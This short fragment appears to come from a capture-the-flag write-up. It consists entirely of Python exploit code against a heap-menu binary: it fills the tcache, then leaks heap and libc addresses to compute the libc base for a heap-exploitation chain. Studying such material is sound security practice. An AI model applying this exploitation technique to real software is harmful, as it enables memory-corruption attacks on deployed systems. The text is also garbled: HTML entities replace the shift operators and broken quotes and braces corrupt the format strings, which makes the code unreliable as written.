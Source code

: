 for i in range(10):

    add(0xf8)

add(0x18)

​

for i in range(7):

    delete(i)

​

delete(8)

add(0xf8)

# DEBUG()

part2, part1= show(0)

part2 = unhash(part2, 0x1b0)

#  part2 = unhash(part2, “”)

part1 = unhash(part1, “”)

heap = (part1 &lt;&lt; 32) + part2

print(“heap @ `{`:#x`}`”.format(heap))

​

for i in range(6):

    add(0xf8)

​

add(0xb0)

# DEBUG()

part2, part1 = show(8)

part2 = unhash(part2, 0xd90)

part1 = unhash(part1, “”)

libc.address = ((part1 &lt;&lt; 32) + part2) – 0x3ebd90

print(“libc @ `{`:#x`}`”.format(libc.address))

​

for i in xrange(11):

    delete(i)
